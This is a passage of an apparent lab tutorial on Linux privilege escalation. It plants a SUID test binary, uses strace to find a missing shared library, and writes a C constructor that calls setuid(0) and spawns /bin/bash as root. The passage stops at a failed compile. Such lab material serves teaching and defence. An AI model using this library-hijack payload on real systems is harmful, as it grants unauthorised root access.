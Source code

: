 Now copy this file to the `/usr/bin/` directory:

```bash
user@pwn:~/so-files$ sudo cp nosuchfile /usr/bin/
```

Then add the SUID bit to the `/usr/bin/nosuchfile` binary:

```
user@pwn:~/.config$ sudo chmod u+s /usr/bin/nosuchfile 
```

Check if the file is not found:

```bash
user@pwn:~/so-files$ strace /usr/bin/nosuchfile 2>&1 | grep -iE "open|access|no such file"
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libdl.so.2", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/home/user/.config/custom.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```

Create a custom shared object in the directory that the binary `nosuchfile` looks for the dynamic library, in this case, is `/home/user/.config/custom.so`. 

```bash
vim /home/user/.config/custom.c
```

Will create a code that executes bash as root:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject()
{
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```

Navigate to the directory `/home/user/.config`:

```bash
user@pwn:~/so-files$ cd /home/user/.config
```

Now compile the `custom.c` file and ignore the warning message:

Treat warnings as errors (-Werror), as a developer, we should always try to use this:

```bash
user@pwn:~/.config$ gcc -c -Wall -Werror -fpic custom.c
custom.c: In function ‘inject’:
custom.c:7:2: error: implicit declaration of function ‘setuid’ [-Werror=implicit-function-declaration]
    7 |  setuid(0);
      |  ^~~~~~
custom.c:8:2: error: implicit declaration of function ‘setgid’ [-Werror=implicit-function-declaration]
    8 |  setgid(0);
      |  ^~~~~~
cc1: all warnings being treated as errors
```
